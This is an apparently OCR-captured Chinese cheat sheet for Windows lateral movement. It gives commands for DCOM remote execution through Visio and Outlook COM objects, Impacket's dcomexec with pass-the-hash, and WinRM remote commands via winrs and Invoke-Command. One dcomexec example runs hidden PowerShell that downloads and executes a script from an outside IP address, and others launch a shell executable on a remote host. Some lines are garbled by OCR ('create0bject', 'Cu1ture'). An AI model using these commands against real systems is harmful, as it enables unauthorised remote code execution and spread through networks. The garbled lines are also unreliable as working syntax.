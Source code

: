 ### Visio.Application远程执行命令

**目标主机中安装有Visio**

```
[activator]::CreateInstance([type]::GetTypeFromProgID( "Visio.Application"，"192.168.70.16")).[0].Document.Application.shellExecute("C:shell.exe")
```

### Outlook.Application远程执行命令

**目标主机中安装有Outlook**

```
[activator]::CreateInstance([type]::GetTypeFromProgID("outlook.Application","192.168.70.16")).create0bject( "Shell.Application").shellExecute("C:shell.exe")
```

### Impacket中的dcomexec.py

```
dcomexec.exe [domain/]username:password@ip //创建一个交互式shell
dcomexec.exe [domain/]username:password@ip command //执行命令
dcomexec.exe [domain/]username:@ip -hashes [hash] //hash传递

eg:
dcomexec.exe hack/administrator:admin@123@192.168.70.16 "hostname"

dcomexec.exe hack/administrator:admin@123@192.168.70.16 cmd /c "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))"
```



# WinRM远程执行命令横向移动

## WinRM介绍

**WinRM (Windows远程管理) 是Microsoft 在Windows中对WS-Management的实现，它使系统可以跨通用网络访问或交换管理信息。利用脚本对象或内置的命令行工具，WinRM可以与可能具有基板管理控制器(BMC)的任何远程计算机-起使用，以获取数据。也可以获取基于Windows的计算机 (包括WinRM).**

**WinRM默认端口5985 (HTTP端口)或5986 (HTTPS端口) ，若配置了WINRM远程服务,当我们拿到-一个管理员账户时，可以使用远程连接进行命令执行操作winrm通过HTTP (5985) 或HTTPS SOAP (5986) 端口来进行通信**

## winrs.exe

```
Winrs.exe是一个内置的命令行工具它允许远程命令的执行在WinRm的适当的有资格的用户
winrs -r:http://127.0.0.1:5985 -u:administrator -p:Admin@123 "whoami"
winrs -r:http://127.0.0.1:5985 -u:机器名\用户名 -p:xxxxx "ipconfig"
winrs -r:https://127.0.0.1:5986 -u:机器名\用户名 -p:xxxXx "ipconfig"
winrs -r:http://127.0.0.1:5985 -u:机器名\用户名 -p:xxxxx cmd
winrs -r:https://127.0.0.1:5986 -u:机器名\用户名 -p:xxxxx cmd
Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\ }
Invoke-Command -ComputerName TARGET -Credential 域名\用户名-command {Get-Cu1ture}
Invoke-Command -ComputerName TARGET -Credential 域名\用户名-ScriptB1ock {Get-Cu1ture}
```

